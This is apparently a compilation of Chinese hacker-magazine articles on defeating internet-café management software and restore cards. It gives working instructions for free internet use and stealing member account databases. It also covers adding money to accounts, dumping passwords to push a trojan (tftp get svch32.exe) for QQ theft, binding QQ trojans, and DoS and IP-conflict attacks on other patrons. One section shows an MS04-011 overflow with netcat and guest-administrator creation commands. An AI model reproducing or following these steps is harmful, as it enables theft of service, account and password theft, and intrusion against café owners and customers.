## 注册码中的网络妙管家

理想大葵花

相信大家都知道，每款软件安装后都会在注册表中留下“蛛丝马迹”，网络妙管家自然也不例外。由于网吧常见注册表限制，本文讨论如何通过注册表项分析其口令校验相关信息，并尝试定位关键键值。


不出所料，在未输入任何字符的情况下，点击进入，便来到系统设置的界面，如图4……

在这里我们可以解除一些限制，甚至可以删除网络妙管家的客户端，实现免费上网，如图5。再点击密码选项卡，我们就将前面所说的验证过程看到了，如图6。


这里提醒一点，如果网络妙管家开启了注册表保护功能，我们就无法修改键值，这时直接删除“wx2003Clt”这一项即可。总的来说，从早先的万象直到今天的网络妙管家，似乎都采用这种验证密码的方式，不能不说是一个弊端。

本人属于极菜的行列，在这里卖弄了，如有错误，还望大家谅解与指导，只希望我的一点发现对大家有所启发，有所帮助。

## 突破网吧的限制

bnb—小乖

大家好，我是 X 档案的新朋友，也是如假包换的菜鸟……开门见山吧，我写这篇文章的目的不是吸引 MM 的注意，而是因为许多和我一样是菜鸟的朋友在网吧总是碰到这样那样的限制，而本篇文章就是教你怎样突破网吧限制。有些你可能见过，如果你知道，你可以将它送给你的徒弟。我们的目标是——没有蛀牙（挨嘴，PP 都给你们打肿了，手下留情啊！）下面请看：

### 一、PubWin 4

注册表法：许多网管软件都是通过修改注册表来限制我们的，PubWin4 也是如此，如下图。


如果你所在的网吧支持 Active 控件的话，你可以在 http://web.cyof.com/net_hack/regedit/regedit.htm 上在线编辑注册表。如果不支持，你可以用 winfile（位置：c:\windows）打开 regedit.exe。若无法进入 C 盘，你可以在桌面上新建一个指向 winfile.exe 的快捷方式，在桌面上打开注册表……

- 方法三：用网页木马。在记事本中输入：

```html
<object name='x' classid='clsid:11111111-1111-1111-1111-111111111103' codebase='mhtml:file://c:\NO_SUCH_MHT.MHT!http://...'></object>
```

保存为 htm，双击这个文件，就会自动下载“下载路径”里的内容了。

```reg
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\policies\system]
"DisableRegistryTools"=dword:00000000
[HKEY_USERS\.Default\Software\Microsoft\Windows\CurrentVersion\policies\system]
"DisableRegistryTools"=dword:00000000
```

注意在编制注册表文件时，“REGEDIT4”一定要大写……如果系统是 Windows 2000 或 XP，请将“REGEDIT4”改成“Windows Registry Editor Version 5.00”。保存为 restore1.reg 双击执行。

### 三、破解管理员密码

- 方法一：在线破解。推荐站点如 www.07188.net。
- 方法二：直接用破解精灵，清空管理员密码。
- 方法三：用 WinHex 直接读取管理员密码（可参考 2004 年第 4 期相关资料）。

```vbscript
'Dim WSHShell
Set WSHShell = WScript.CreateObject("WScript.Shell")
WSHShell.RegWrite "HKEY_LOCAL_MACHINE\Software\Classes\.reg","regfile"
```

保存为 restore.vbs 双击执行，再执行 restore1.reg 就可以进入注册表了。

### 二、突破下载限制

- 方法一：用腾讯 TT（内置“旋风下载”）。
- 方法二：收藏夹法，在要下载的超链接上右击，选“添加到收藏夹”“允许脱机使用”，再从收藏夹里打开。

### 四、美萍篇

美萍我对它了解不多……可通过 DOS 模式删除相关文件；若 F8 无效，可在 C 盘根区找到 Msdos.sys 并修改 `[option]` 小节。

```ini
BootMulti=1
BootKeys=1
```

### 五、总结

以上这些方法，只要你熟悉，方法可列出几十种甚至几百种。一句话，没有做不到，只有想不到！

## 夺回被窃网管

> 提示：安全模式下 Windows 只加载必须的一些基本文件和软件，其它一律免谈，包括网管软件。

最近很不情愿地陪一个朋友去冲浪，只开了一台机子。坐在旁边看了一会儿，有点按捺不住……屏幕已被锁定，双击图标都弹出对话框提示“处于集中管理状态，需要管理员开通”……

上次本人就在一个无名网吧，在安全模式下卸载网管软件，成功地破解了机器……又重点观察 Windows 加载过程，发现网管软件是在 Windows 启动之后附加运行的……迅速重启，按住 Ctrl 进入启动菜单，选“Step-by-step configuration”单步启动 Windows……

也启动，而且每一步都询问你是否同意。接着出现命令询问当前文件是否加载或运行，不管它一上一下是否按回车，直到出现如下命令：`C:\Win?Enter=Y,ESC=N`。千万不要按回车，这是在问是否运行 Windows，要是运行的话就和正常启动没区别了，什么手脚都做不成了。此时按 ESC 或 N 不运行 Windows，机器随即进入 DOS 提示符状态。

下面的工作最麻烦，就是要找到网管软件的安装目录。一般都装在根目录下，而且一般都是用默认的安装文件名，所以只要在各个盘下查看一下，排除一些常见的文件夹，差不多就是了。如果找不到就到 Program Files 文件夹下找找看，总会找到的（DOS 下显示文件夹内容的命令是 `dir`，进入文件夹的命令是 `cd 文件夹名`，返回上一级文件夹的命令是 `cd..`）。

一些常用的网管软件默认安装文件夹是：美萍：SMEUN，万象：Octopus，方竹：gamenet。

我迅速搜索 C、D、E 盘根目录下的文件夹，一眼看穿了网管软件文件夹 `D:\SMEUN`，这是网管软件的安装目录。删除后网管软件的所有文件就从硬盘上消失了，当然就无法运行了！立即键入命令：`DELTREE SMEUN`（deltree 是 DOS 下删除文件夹的命令，用法是 `deltree 文件夹名`）。回车后出现警告，再按回车确认后文件夹被整个删除。此时再进入 C 盘，键入 WIN 回车运行 Windows。下面不管出现什么，一路回车直达 Windows，发现什么了？网管软件蒸发了！

谁说天下没有免费的午餐？本方法的成功率是 100%，不过本人强烈建议你不要用此方法做出过分的事情，否则变成国宝——大熊猫，不要怨我！！

其实本人并不想搞破坏成为了免费上网，只是出于纯粹的技术研究，希望能给各位一点小小的启发，也希望网管软件生产商能升级软件，免得如此不堪一击，让人家网吧瞬间失去用户。

## 网络妙管家之免费上网终结篇

敖笛飞血

大家好啊！我们又见面了，前面我已经和大家讲了怎样卸除网络妙管家 2003 和 2004 的客户端。其实，追根到底我们的目的只有一个——那就是免费上网！难道只有卸载这一种办法吗？盗取会员账号就是一个很好的方法！关于怎样弄 2003 的账号已经在 X 的第三期发表了，下面我将给大家说说怎样弄 2004 的（2004 就是好啊！上回办法不行了）。

首先我们还是说万象主程序里装的东西，有这个存在我们就可以顺便去文件夹里把它的 MDE 文件拉下来（可不代表随便就能打开）。先去拉下来（它的是 2004men.mdb 文件），我们先看看能不能破出密码，如图1。

工具破出来的密码都连不上，难道是加壳了？我可不会破解啊！那我就这样看着数据库文件在我的手里变为一堆废品吗？肯定有办法！

我先从网上拉下个万象 2004 的安装程序来看了看（大家千万注意此方法只适用在逆向时集中偷取账号以后用）。里面有个会员管理功能，如图2。

如果我们把服务端装在了 `C:\wx2004` 下，我们就把我们以前老板机子上拉下来的 MDE 文件改名为 2004men，然后覆盖到 `C:\wx2004` 下，再打开万象 2004 的主程序，进入会员卡管理，发现那些信息都出来了，如图3。这不就是密码吗？号码检查器你应该会用吧！

好了，到这我的《网络妙管家之免费上网》三步曲就完了。我在这里祝 X 祝大家玩得愉快！


## [DOS] 多姿多彩

欧诗伟

DOS 下的 color 命令可以用来设置命令行的背景和字体颜色，第一个数字代表背景颜色，第二个数字代表字体颜色。如在 DOS 窗口下输入 `color 04`，背景为黑色、字体为红色；如果你要试试浅绿色等自己喜欢的颜色，可以在 DOS 下输入 `color ?`，就会显示出规律的参数列表。以后你就可以不用面对一成不变的 DOS。原来 DOS 生活也是如此美丽！


## 我的 PUBWIN 破解历

战神 MARS

我是大菜鸟一个，菜志读了有半年了，却仍然对黑客技术摸不着边际，发现自己真的很笨。最近在上网时有了一些经历，希望对像我一样的菜鸟有用。本文没什么技术含量，老鸟就不要看了。

首先声明一下，本文的破解方法取自 05 年第一期杂志，YOYO 兄写的一篇叫做《PUBWIN 破解程序》，但本文并非抄袭。本文可以说是对 PUBWIN 破解程序的修正或补充。

先说一下，YOYO 兄的方法确实不错，我的方法也是得益于他。不过他的方法有许多局限和缺点：

- 大部分网吧的注册表编辑器是被管理员禁用的，YOYO 兄的方法前提就是注册表编辑器被解锁。
- 有许多网吧除了 PUBWIN 还有其他防护措施，仅仅破解 PUBWIN 是不够的。

那怎么办呢？首先打开计算机，再进入 PUBWIN 后，调出“开始”菜单。选择“运行”，这时系统会打开“运行”对话框，上面有几行字：“请输入程序、文件夹、文档或 INTERNET 资源的名称，WINDOWS 将为你打开它”。在它下面有“打开”。不要输入任何东西，按“浏览”选“桌面”下的“腾讯 QQ”，打开。这时候就会出现大家都十分熟悉的 QQ 登录界面；快速输入 QQ 号码及密码，登录，如图1、图2和图3。


QQ 登录成功后，快速进入 QQ 网络硬盘，下载事先上传的“注册表编辑工具”，如图4。

因为 PUBWIN 每 3 分钟左右就刷新一次，所以要想下载下来可能需要登录两次 QQ，而且你所在的网吧网速一定要够快，这样我们才能在有限的时间内将注册表解锁。

将注册表解锁后，打开它。按 YOYO 兄的方法将注册表的 3 个键删除，然后注销就可以了。我的注销方法是：按“CTRL+ALT+DEL”组合键，选注销，确定即可。这样就可以免费上网。

提醒大家几点：整个破解过程的关键在于速度。建议在破解之前先熟悉一下注册表的操作以及注册表解锁工具的使用。


当你第一次进入 QQ 时，系统会自动记录“运行”的路径，一般是：`C:\Documents and Settings\OI\桌面\腾讯QQ.lnk`。第二次进入时，直接点确定，这样一来我们就可以节约好几秒钟时间。而且系统会自动记录上次 QQ 登录的号码，快速输入密码即可进入。我们有充足的时间破解“注册表编辑器”。

一般来说，此时 PUBWIN 将刷屏第二次。别急，虽然它刷了屏，但是注册表编辑器仍然可以使用。这或许就是 PUBWIN 的疏漏吧（1. 没屏蔽“开始”菜单；2. 刷屏不彻底；3. 有长达 3 分钟的刷屏间歇，使我们有可乘之机）。不过，说实话我们还应该感谢 PUBWIN 的开发公司！因为我们是偷着上网，所以应在网吧空闲时用此法。破解完后，网吧主机上显示的是无人上机。但网吧空闲时还是可以免费上几个小时的。朋友，知足点，反正是免费的。

现在网上有许多现成的破解程序，你尽可以拿来用。怎样检验是否管用？我教你一招：运行完程序后，点系统托盘上的 PUBWIN 图标，选“注销（互换机器）”，确定。之后将回到 PUBWIN 登录界面。按“CTRL+ALT+DEL”组合键，选注销，确定。如果能正常上机，则此法可行。

有的网吧除了 PUBWIN 还有其他防护措施，如我们这儿的一个网吧就加了 symantec antivirus 企业版文件实时防护。怎么办？正常上机，先将其禁用，然后破 PUBWIN 即可，如图5。最后，祝大家免费上网愉快！


## 网吧存在的安全隐患

安装调试网吧是一个相当烦琐的过程，所以大部分网管都是采用制作母盘进行克隆的方法来减少烦琐的工作，但方便的同时也可能带来相当严重的安全隐患。

如果一个网吧使用 GHOST 软件制作母盘的方法安装 Windows 2000/XP 系统，这样网吧里所有的客户机都是相同的登录账号和密码，这样我们就可以登录 IPC 连接，用 AT 命令远程执行。这样就可以在网吧里为所欲为了。这种安全隐患几乎随处可见，只是大家没有太在意。

当然也有负责任的网管，关闭 IPC，甚至关掉 Server 服务；禁用 Task Scheduler 服务。尽管做了些安全措施，也不是没办法攻破。本文以 Remoxec v1.1.1 为例，介绍通过 RPC（Task Scheduler）或 DCOM（WMI）远程执行命令的方法与风险。

> pulist.exe：获取已登录账户的 winlogon.exe 的 PID 值  
> findpass.exe：获取账户密码

使用方法：

1. 直接运行 pulist.exe 找到 winlogon.exe 进程的 PID 值。
2. `findpass DomainName UserName PID-of-WinLogon`


我们得到当前用户名与密码后，打开 Remoxec v1.1.1。其远程执行命令有两种方式：RPC（Task Scheduler）和 DCOM（WMI）。RPC 依赖 Task Scheduler 服务，部分网管会禁用；DCOM 通过 WMI 远程执行命令，成功率更高。

| 字段 | 说明 |
|---|---|
| computer | 填远程主机 IP |
| [Domain\]Account | 填用户名 |
| Password | 填密码 |
| Command | 填命令 |

```bash
tftp -i 192.168.1.220 get svch32.exe
```


然后运行我传过的木马 svch32.exe，呵呵又成功运行，得到 PID 值为 1184，结果如图3。呵呵，等着到我的信箱收她的 QQ 密码吧！希望大家不要学着盗 QQ，可以传些远程控制木马之类的东西，再剩下的就看大家的意愿了，但不要玩得太过分哦！

> （本文涉及到的工具，光盘都有收录）


## PubWin4 无线大法

各位在网吧上网的朋友一定想花最少的钱爽玩吧（偶也是这么想的），可是各种网管软件对我们的限制太多了。黑档上也介绍了很多的方法。今天我给大家带来一个更绝的破解 PubWin4 的好东西（如下面图）。


首先要搞清楚主机的 IP、用户名、密码，然后就可以随心所欲地加钱了。但是很多人不知道怎么搞到主机的 IP、用户名、密码，其实 X 上也有介绍。查找主机我现在推荐两种方法：一是按网吧客户机命名规律排序判断；二是利用社会工程学和 ping 等方式确定主机地址。

可以翻下以前黑档，这里就不细说了。接下来就是破解用户名和密码了，网吧设置的用户名和密码一般都很简单。用一些扫描/漏洞工具（如文中提到的插件方式）可先探测，若不行再尝试利用 WinHex 对数据库进行分析。常见情况下可取到管理员账户信息。按步骤填好 IP、用户名、密码、数据库路径后，常见默认密码字段可进一步尝试，从而达到加钱效果。

> （本文涉及到的相关软件，光盘有收录）

## 硬盘还原卡解密

各位“黑道”上的朋友们，想必没有不知道硬盘还原卡是用来做什么的吧！它的主要用途是将硬盘数据锁住，不让数据意外丢失，也防止非法用户写入。由于性价比高，所以在公共场所计算机上很常见。

下面切入主题，本文讲的是关于还原卡解密。以前有几期黑客 X 档案有相关文章，方法有一定适用范围，但对不同品牌和型号兼容性有限。本文作者结合实战经验，继续分享网吧环境下对还原卡的处理思路与步骤。

网络上有一种可破解还原卡密码的小程序，体积很小，但实用性一般；通常需要从 PCI 卡中读取/清除信息才能真正去掉密码，使用上有较大局限。图1为相关工具界面示意。


# 网吧黑客

下面我推荐一个程序，是用汇编语言写的纯32位应用程序，程序大小12K。程序运行如图2。


图2

以我目前的使用经验来看，它至少可以对付二十几种品牌的还原卡，目前本人还没有碰到过它读不出来的。

下面着重讲一下它的使用方法。程序很小，我们可以直接把它放在哪里，用的时候再把它 down 到机器里运行。它可以对硬盘进行逻辑加锁，也可以读出还原卡的密码，是一款傻瓜式的硬盘还原卡密码破解程序。

第三位出厂的“战士”体重为11K，生活环境为 DOS。注意它的用法有点特别，如果用不好是无法发挥性能的。建议先在 Windows 下热启动进入 DOS，再运行程序输入 `ONCLEAR` 回车，密码会显示在屏幕上。

程序输入 ONCLEAR 回车，怎么样？密码已经显示在屏幕上了（注：同样它也可以读出目前大部分还原卡的密码，只是操作不如前者方便）。


图3

接下来再给大家介绍一款由还原卡生产商自身推出的还原卡密码清除程序——“中龙还原卡密码清除工具”。它的适用范围同样是合法用户，可摘下还原卡的情况下使用，如图4。


图4

最后说一下“硬盘保护卡克星”程序，可用于破解前文提及的大多数保护卡，并具有清除分区与低级格式化等功能。建议不要在自己的机器上做实验，风险较高。程序如图5，运行后选择“仅破解保护卡”，确定，如图6。


图5


图6

重启后，还原卡的密码就被清空了，这时等于你已经是管理员或合法用户了，接下来你就可以做你想做的事了。

上面的办法和程序都是针对硬件保护卡而言，并非软件还原。若能进入 DOS 可优先使用第二和第三种；若不会 DOS 命令则用第三种。第四种程序也有其应用场景，特别是在忘记密码时用于恢复。

> **结束语：** 此文是本人长期关注还原卡破解经验的总结，希望网吧、系统合法用户遇到问题时能得到更好解决。请合理使用这些程序和方法，切勿破坏！

（所有本文提到的程序，先盘都有收录）

## 网吧轻松挂QQ吧

从腾讯 QQ 2004II 开始推出在线时长功能，通过累积在线时长可以获取等级并解锁功能（建群、上传头像等）。很多人想挂机提升等级，本文以网吧环境为目标讨论方法。

首先，要有自己的 QQ 并做好密码保护，尽量备份好友信息，以便异常时恢复。

我要说的方法其实比较安全，只不过司徒化老人家说过“安全第一”。明确目标：在不知不觉中挂 QQ。

**步骤：** 登录 QQ 后，在系统设置里取消任务栏图标及提示音显示；然后在“更换皮肤”中调高透明度（如80），再最小化，QQ 几乎不可见。接下来还有关键一步：刷卡下机。

（群鸟猛男##￥%……*%#）此方法缺点是仅页面隐藏，仍可能被发现并打开，严重时会导致好友被删，系统重启 OVER。

**方法2：** 再次刷卡上机后登录 QQ，配合 `bosskey`（老板键）软件。双击后出现绿色标志并配置热键（建议设密码）。按住鼠标左键同时点右键可快速隐藏，再次操作并输入密码可恢复。

顺便说一句，网吧限制下载时，可参考黑客X档案中的其他下载方法；作者认为较简便的是在 QQ 网络硬盘“公共资源”中获取。


图1

TT 来解决，然后到猪猪联盟去下一个破解网吧限制的工具包，非常好用啊！方法二解决了被别人打开 QQ 的问题，还有一个方法就是用 MAXTHON 的 QQMAX 来运行 QQ，也是一种方法，但大同小异，我就不多叙述了。用上面的方法有个缺点就是一旦系统重启就失效了，现在我们来解决这个问题！

然后将你复制的 QQ 设置为自动登录，这样这个 QQ.exe 就成为你的专用 QQ 登录器了，而原来的 QQ.EXE 能照常登录。我们必须把这个专用 QQ 放在一个非常隐蔽的地方才行。给大家说一个绝好的办法：在 CMD 状态下输入 `md d\a..\`，在 Windows 系统中，会发现 D 盘下并不是想象中的 a.. 文件夹，文件夹的名字是 a.！而进入 D 盘双击 a.. 会出现“+2”的错误，想要进入就在运行中输入地址吧。我们就可以把复制的 QQ 全部放在这个文件夹里面了，就有了自己的绝密文件夹，呵呵……


图2

把我们的“专用 QQ 登录器”与正常的 QQ 捆绑在一起，和捆绑木马是一个道理。我推荐用 FileBind，它可以捆绑一个是 EXE，而另一个没有要求。最重要的是生成文件的图标和原来 EXE 文件图标一模一样，我放大3000倍都没发现不同（小弟曾经用其他捆绑器捆绑木马在 QQ 上，发现生成的 QQ 图标全像矮得了1型一样，不堪入目，惨！）。还有，如果网吧用的是珊瑚虫版的 QQ，请在捆绑后将文件改为珊瑚虫版 QQ 的名字，否则不能运行。如果捆自动登录器的同时，再捆个 QQ 木马就更好了，其他的就看自己发挥了，祝大家早日三个太阳！

## 游戏登录

想必在家里上网的朋友很多都用 QQ 的自动登录功能吧（有人不会吗？多看看 QQ 系统设置）！试想这种功能我们也可以用在网吧，当别人点 QQ 的时候那我们也挂上了，哈哈……网吧这么多人都在帮我们挂 QQ……三个太阳就有望了。

但是我们会发现一个问题，当你设置好了一个自动登录的 QQ 后，别人就不能再登录 QQ 了，再次双击 QQ.EXE 就会出现“****** 正在本机登录”的错误提示。如何解决这个问题呢？我多次实验，发现了一个方法：将安装 QQ 的整个文件夹复制粘贴到其他地方。


柳若寒

公元2005年，阴霾的一天，龙门网吧。一阵狂风袭来，网吧内的电脑全部死机。在一片慌乱中，一个黑衣人仰天而叹：“为什么？为什么天下网吧之大，竟没有我的对手？为什么？为什么？”此人从此销声匿迹，他就是传说中的——柳若寒。下面是他留下的传世秘籍（以上情节纯属虚构）。

## 一、破解篇

现在网上关于破解网吧的方法很多，但各自的局限性都很大，毕竟不同的环境有不同的方法。有的限制比较简单，有的非常变态，下面我就结合自己的情况给大家说说这个问题。

我们这里的管理软件是网络妙管家，本地的技术人员对其做了一些修改，安全也增强了。先来说说怎么下载程序吧。大家常用的方法是先把需要用的软件放到 QQ 网络硬盘里，再从 QQ 网络硬盘下载，或者使用腾讯的 TT 浏览器里的旋风下载等。下载后的东西要能用就必须进入本地硬盘，因为桌面是被管理软件虚拟出来的。当然如果是单一文件的程序，直接在 QQ 网络硬盘里双击就会自动运行了，但如果是多个文件的呢？从浏览器里直接输入盘符是绝对不可能的了。

想了一下 www.cy07.com 在线破解，可网站打开一半就被屏蔽了。搜索其他同类的网站也是一打开就屏蔽，够强吧。试一下智能 ABC 输入法的 bug（在程序可以输入文本的地方依次按“v”“↑”“Delete”，然后回车，这个程序会因为非法操作而关闭），我在进入“管理画板输入密码”的地方用了这个 bug，可换来的却是一死机。在其他有这种输入框的地方用了也是死机。无奈之下，我在桌面上直接用了一下，竟发现桌面变成一片空白了；再用了一下，嘿嘿，亲切的“我的电脑”“网上邻居”等熟悉的画面出现在我面前，虚拟的桌面被成功退出了。

我迫不及待双击“我的电脑”，可接下来发生的事让我傻了眼，管理系统又被激活了。没办法，我重新启动电脑，重复了一次刚才退出虚拟桌面的过程，又一次面对着“我的电脑”。不过这次没冒然点击，仔细想了一下，我认为会被激活的原因是注册表或其他系统配置里面保存有管理软件的信息，把它们清除不就行了。再一次打开 www.cy07.com，还是被屏蔽。无奈之中想先看电影，打开 realplayer 播放器，我突然想用播放器打开 cy07 会怎么样，结果发现没有屏蔽。

嘿嘿，这下就有办法了。到 cy07 的在线破解页面再找到“在线清除 Internet 选项里的权限限制”和“在线恢复各网站注册表的改动”，运行之后双击“我的电脑”，哈哈，顺利地进入了。进入 `c:\windows\system32` 中找到 `internet.cpl`，这个其实就是浏览器“工具”中的“Internet 选项”了，运行后依次找到“安全→自定义级别→文件下载”，把禁用改为启用就可以了。这样就没有限制了，在开始菜单中各种功能都能使用。如果你想免费上网的话可以把它的管理软件删了。嘿嘿，不过这也太残忍了。

假如智能 ABC 的 bug 被补上了怎么办？后来我发现在 realplayer 的地址栏中直接输入硬盘盘符可以进入。进入后不能直接双击文件夹，只能在地址栏中直接输入文件所在路径才能打开，不过我们破解下载限制的目的已经达到了。

## 二、整人篇

某日看一部爱情片正投入时，旁边来了一帮玩 CS 的，他们吵得像战场一样，叫骂不断，让人心烦意乱。网吧里要整别人通常有两种方法：一个是让别人死机，一个是让别人掉线。

- 1. 死机  
  死机的原理是给对方电脑发送大量垃圾数据导致系统崩溃。文中提到可用“炫雪攻击者 v3.00 Pro”（图1）并输入目标 IP。IP 可通过“IPlook.exe”（图2）查看，局域网 IP 通常有顺序，也可用 PING 机器名获取。


可在扫描到在线机器后选择目标 IP，点击“加入”并“开始监听”，可看到在线 QQ 号。若部分网吧无效，可尝试“Kick ip”，成功率高，但可能导致网吧内全部掉线，也可作为攻击工具使用（图5）。


- 2. 掉线  
  掉线的原理是制造 IP 冲突。可用“局域网络终结者”（图3）将目标 IP 加入阻断列表。另可用“QQ Sniffer 2005 build 2.14”（图4）嗅探同一网吧内在线 QQ 号码。

上面三招是当时网吧常见玩法。文末提示相关程序包括攻击者 v3.00 Pro、IPlook.exe、局域网络终结者、QQ Sniffer 2005 等。

## 三、泡MM篇

大家在网吧常会遇到感兴趣的人，这里介绍两种较有效的方法：直接去问人家，或通过 QQ 工具获取信息。


网络生活越来越精彩，但不少公司、网吧和学校对网络功能有限制。文中推荐使用“通通通”在受限网络中进行下载和收发邮件。

## 一、软件设置

运行“通通通”后，主界面如图1所示。


双击任务栏图标可进入软件设置界面（图2）。首次使用需点击“注册”，到网站注册用户名并填写真实 Email，收到激活邮件后完成账号激活，再输入登录名和密码并确认。

在“网络设置”界面中可配置一些网络参数，推荐选择“使用 Internet Explorer 的设置”选项，这样设置可保证只要能顺利打开网页，那么这个网络设置就是正确的。

“端口映射”功能主要是针对一些非 socks 服务来使用的，如收发邮件要用到 TCP 的，玩 CS 要用到 UDP 的，稍后在实例中说明。


在“高级”界面中可设置服务器端口，端口填写的是 Socks 代理服务所使用的端口，默认为1080。也可以改成其他数字，只要对应端口未被占用即可。这个端口值要记住，因为别的软件设置中可能要用到。

## 二、应用实例

- 1. 内网使用 FlashGet

首先我们在 FlashGet 的菜单中选“工具”→“选项”，在弹出的窗口中选择“代理服务器”标签，再点击“添加”按钮，出现代理服务器设置界面（如图4）。在“类型”列表中选择“Socks5”，然后在名称框中输入一个名称；在服务器框中填入代理服务器地址 `127.0.0.1`，端口填入 `1080`，类型选择 SOCKS。


接下来我们就可以选择刚刚编辑的代理服务器来下载各种软件了。FTP 工具的设置与此类似，可比照设置。

- 2. 在受限网内通过软件收发邮件

我们以 Outlook Express 为例，介绍如何在 Email 软件里做相关设置。首先在 OE 菜单中选“工具”→“帐户”→“当前帐户属性”，在弹出的帐户属性窗口中选择“邮件服务器”。发送邮件服务器（SMTP）输入 `smtp.163.com` 或 `127.0.0.1`；接收邮件服务器（POP3）输入 `pop3.163.com` 或 `127.0.0.1`，并确保与“通通通”中对应 TCP 端口设置一致。


接下来还要在“通通通”中做相应设置：进入“端口映射”界面，点击左下角的“TCP”标签，再点击右上部“增加”按钮，弹出窗口（如图6）。先添加 POP3 端口：本地端口110，目标主机 `pop3.163.com`，目标端口110；SMTP 端口同理可填25、`smtp.163.com`、25。这样设置后即可正常收发邮件。


自从有了网吧，就有了网吧黑客同网管之间的斗争。斗争是激烈的、残酷的，也有趣的。谁的技术水平高谁就掌握主动权。伟大导师马克思早就说过：“整个世界是一个充满矛盾的统一体。”不过，怎样在斗争中掌握主动权，取得斗争胜利呢？这需要不断学习和探索总结。

在最近这段时间，本人也在研究 PUBWIN 的破解，经过多次尝试和总结，也有了一些收获，特向大家分享。下面，笔者就用绕、破、卸、杀、侵五种方法演示如何对付航母级网管软件——PUBWIN，希望对在网吧上网的朋友们有帮助。

## 方法一：绕

所谓绕，即通过一定的程序或方法绕过网吧管理软件，从而摆脱其控制，进而达到免费上网之目的。这里给大家一个十分简单的方法，此法可以一键搞定。

选择“目录服务恢复模式（用于 Windows2000 域控制器）”，回车。这时系统会开机进入目录服务恢复模式，而 PUBWIN 就绕过去啦，简单吧。但桌面会为黑屏，不过其他的操作与正常上机没什么两样。

## 方法二：破

破，破解 PUBWIN 程序。在2003年第一期《X档案》中有手动破解的文章，而且我在第4期中作了补充。这些我就不多说了，免得有骗稿费的嫌疑。（请参阅2005年第1期X）

## 方法三：卸

卸，即卸载 PUBWIN，治标治本。不过这方法有点危险，但如果你没有更好的方法这也是一个好方法。我向大家推荐一个这样的软件——卸载精灵 V4.1。卸载精灵的智能卸载功能可以干净彻底地卸载软件，包括那些无法正常卸载的程序它都可以帮您卸载。哈哈，用起来还挺不错的，如图1，选定 PUBCLT，再点“智能卸载”就可以了。


图1

## 方法四：杀

将 PUBWIN 的进程杀死，就可免费上机。我总结了四种方法。

- 1. 永杀助手：有人介绍的这个方法，但在我们这儿不管用，不知什么原因，大伙可以试试看。
- 2. Windows 任务管理器：按 `CTRL+ALT+DEL` 调出任务管理器，结束 `RELQCK.EXE` 和 `PUBWIN.EXE` 进程（如图2、图3）。可继续玩游戏、听歌、上QQ，但不能浏览网页。
- 3. 更改本地连接属性：在“本地连接属性”中仅保留“Internet 协议（TCP/IP）”前勾，其他取消。
- 4. 木马克星：通过“监视网络”“我的电脑-属性-设备管理器-网卡”操作，临时禁用/启用网卡以实现上机（如图6、图7）。


图2


图3


图4


图5

……黑了。据说此法可以实现任意网吧免费上网，当然对 PUBWIN 也有效，建议你亲自试试。

(1) 打开木马克星主界面，查看下面有一个“监视网络”，选择后点“开始”按钮，如图6。  
(2) 右键单击“我的电脑”，选“属性”。系统此时会打开“系统属性”对话框，选“硬件”标签下的“设备管理器”，打开“设备管理器”后，下面有个“网卡”选项，点前面的“+”号，会出现网卡的设备名，如图7。先正常上机，将木马克星运行，再将网卡设为禁用，然后刷卡结账，回到自己的机子，将其设为启用，即可免费上机。


图6


图7

## 方法五：侵

侵，入侵网吧主机。给自己的会员卡上加点钱，正常刷卡上机，世界上最安全的上网方式也莫过于此了。这样堂而皇之地刷卡免费上机，网管能拿你怎样？爽吧！既安全又实惠。

- 1. 加钱工具。我们技术比较菜，用现成的加钱工具吧。向大家推荐一个这样的工具：网吧 pubwin 充值一条龙，其主界面如图8。很简单的一个工具，上期杂志《PUBWIN4充钱大法》介绍过这个软件的使用方法，不过这次送上的是它的新版本，功能有所扩充。


图8

# 网吧黑客

2. 入侵网吧数据库。如果网吧存在设置上的弊病，可以点击“网上邻居”选“映射网络驱动器”，输入路径，将网吧主机的硬盘映射到本机，再用数据库修改工具（如“明小子”）将会员数据改一下，保存就行了。

方法就到这里吧，最后讲一下我的一点小小经历。在2005年第4期《X档案》上，我讲过用QQ和注册码解锁工具来解锁注册表，不过虽然操作过程不复杂，但较慢，需要两次登录QQ，而且如果网吧的机子网速不够快时，甚至行不通。

在桌面我漫无目的地刷新，结果发现了一个叫“绿鹰PC万能精灵”的东西。好奇地将它打开，狂喜。表面上它是一个杀毒监控软件，而且还有清洁IE、清除广告垃圾等功能。但细心的我（好像在自夸！）发现它的界面上有一个“Windows设置”，打开一看，兴奋ING。不信你自己看，它竟然可以解除许多网吧常见限制，当然有解锁注册表啦，如图9。


图9

哈哈哈，网管真SB，有资源不利用，枉为黑，西西。但这毕竟比较特殊，我目前只在一家网吧发现用此软件（也不排除外地其他网吧有的情况）。我要说的是，当你在进行或研究网吧破解时，不妨先对该网吧的具体设置研究一下，或许会发现许多具有很强针对性的方法。只有“知己知彼”，才能“百战不殆”。

（本章中涉及到的程序：卸载精灵V4.1、网吧Pubwin充值一杀龙，已经收录在本期光盘中）


## 分流の鬼

我经常在本地一家网吧上网，这家网吧的操作系统是XP。唉，最近又装“中澜”犯了。看见大家在前几期《X》上发表对于网吧免费上网的高招，我也想给自己找一利“招”。功夫不负有心人，我真的找到了自己的“招”了，不敢独享，我要和大家一起分享免费的畅悦。

下面向大家介绍一下我的思路：入侵网吧主机，然后在吧台没人的时候，用屏幕控制给自己加会员。这家网吧用的是XP+万象网络管家，先看一下对方有没有什么漏洞吧！一提到XP的漏洞，就能想到前段时间的MS04-011漏洞，说干就干：请出DSScan.exe扫描192.168.1.1—192.168.1.254的内网，如图1。


图1

等了一会，结果出来了，这家网吧的网管还好没有打补丁，结果让我有机可乘了，呵呵。那么Let's go吧！可是这么多机器，到底哪台是主机呢？哦！应该是这台：192.168.1.200，如图2。


图2

因为它的名字最特殊嘛，用阴招试试，嘿嘿！

用MS04-011的溢出程序用参数0（对Win2000）来溢出XP的时候，目标会出现这样的一个提示，如图3。


图3

溢出完成后，我斜了主机一眼。呵呵！真的是它。在一群网管的讨论后，主机重启。我心里却偷偷在笑。好了，既然已经锁定主机的IP了，那么继续吧！

- 1. 用nc在本地监听一个端口（`nc -v -l -p IP 端口`）
- 2. 用MS04-011溢出主机（`ms04011 参数 IP`）
- 3. 在得到权限后激活对方的Guest账户并提升为管理员组（`net user guest /active:yes`，回车后再输入`net localgroup administrators guest /add`）
- 4. 然后再加个密码吧！（`net user guest 1234`）

我不喜欢在cmd做事，所以我使用Shed，看看它有什么共享，哇！——什么都开了，用刚才的1234连一下他的c$吧！如图4。


图4

